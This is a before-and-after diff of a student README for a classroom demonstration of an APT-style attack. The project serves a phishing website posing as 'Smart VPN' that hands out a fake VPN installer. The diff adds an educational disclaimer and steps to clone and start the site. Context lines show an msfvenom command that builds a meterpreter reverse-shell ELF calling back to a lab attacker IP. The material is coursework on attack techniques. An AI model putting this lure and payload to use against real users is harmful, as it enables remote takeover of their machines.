

Before and after one commit to Pranauv-Kumar1803/ICS, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -5,6 +5,9 @@ This is a repository containing code for demonstration of APT attacks for Introd
 This repo contains the server-side rendering code for a phishing website called as Smart VPN which has a maliicous .elf executable file as vpn_setup.elf which as the name suggests, is a fake VPN setup file which if executed, can open a connection to the attacker and spawn a shell of the victim's machine at the attacker's end.
 
 We are setting up a reverse shell on the victim's computer which will connect to the attacker's machine which is listening to the connection request from any machine after the malicious file has been sent!
+
+Note: This is only for educational purposes!
+
 
 ## Project Contributors
 
@@ -39,7 +42,31 @@ Kali's IP - 192.168.100.4 and Ubuntu's IP - 192.168.100.5
 
 In Kali Linux,
 
-Firsly, create the malicious .elf executable file using msfvenom toolkit. The code is as given below:
+Firstly, Clone the project to have the Fake Website ready for the victim to download the malicious VPN setup file.
+
+```bash
+  git clone https://github.com/Pranauv-Kumar1803/ICS.git
+```
+
+Go to the project directory
+
+```bash
+  cd ICS
+```
+
+Install dependencies in both client and server folder
+
+```bash
+  npm install
+```
+
+Start the server
+
+```bash
+  npm start
+```
+
+Next, create the malicious .elf executable file using msfvenom toolkit. The code is as given below:
 ```bash
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.4 LPORT=4443 -f elf > vpn_setup.elf
 ```
````
